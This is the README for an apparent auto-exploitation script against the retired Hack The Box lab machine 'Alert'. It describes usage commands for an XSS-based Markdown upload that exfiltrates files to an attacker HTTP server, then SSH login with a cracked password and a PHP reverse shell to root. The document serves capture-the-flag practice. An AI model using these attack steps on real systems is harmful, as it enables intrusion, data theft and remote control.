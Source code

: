 # 🧨 HTB - Alert AutoPwn Script

This script fully automates the exploitation of the retired Hack The Box machine **Alert**, including both **initial intrusion** and **privilege escalation to root**. It leverages a Markdown-based XSS, a local HTTP server, and a PHP reverse shell.

---
## 📋 Description

The script operates in two attack phases, selectable via `--type-attack`:

1. `intrusion`: Uploads a malicious `.md` file containing JavaScript to extract files from the target via XSS.
2. `privesc`: Uses valid SSH credentials for user `albert`, deploys a malicious `shell.php`, and spawns a reverse shell as root.

---
## 🧠 Requirements

- Python 3.x
- `sshpass` and `netcat` (`nc`) installed
- HTB VPN connection active
- Known password for `albert` (retrieved by cracking a hash)

---
## ⚙️ Usage

### 🐞 Phase 1 - XSS Intrusion

Starts an HTTP server to receive exfiltrated data from the vulnerable application:

```bash
python3 autopwn.py --type-attack intrusion --ip 10.10.14.5 --port 8000
```

Arguments:
- `--ip`	Your VPN IP to receive the HTTP request
- `--port`	Listening port for HTTP server (default: 8000)
- `--url`	Target base URL (default: http://alert.htb)

### ⚔️ Phase 2 - Privilege Escalation

Once you have cracked albert's password, use this phase to gain a root shell:
```bash
python3 autopwn.py --type-attack privesc --ip 10.10.14.5 --ssh-pass manchesterunited
```
Additional Arguments:
- `--ssh-pass`	Password for albert (required for privesc)
- `--ip-victim`	Victim IP address (default: 10.10.11.44)

The script will upload and execute shell.php over SSH and open a listener for the root reverse shell.

### 🧪 Full Attack Flow

```bash
# Step 1: XSS intrusion and file exfiltration
python3 autopwn.py --type-attack intrusion --ip 10.10.14.5 --port 8000

# Step 2: After cracking albert’s hash...
python3 autopwn.py --type-attack privesc --ip 10.10.14.5 --ssh-pass manchesterunited
```
### 🛠️ Features

    ✅ Clean menu with per-phase argument validation
    ✅ Dynamic JS and PHP payload generation (base64-encoded)
    ✅ SSH automation with sshpass (no user interaction)
    ✅ Reverse shell with nc listener spawned from Python
    ✅ Optional port forwarding functionality built-in (not used in default setup)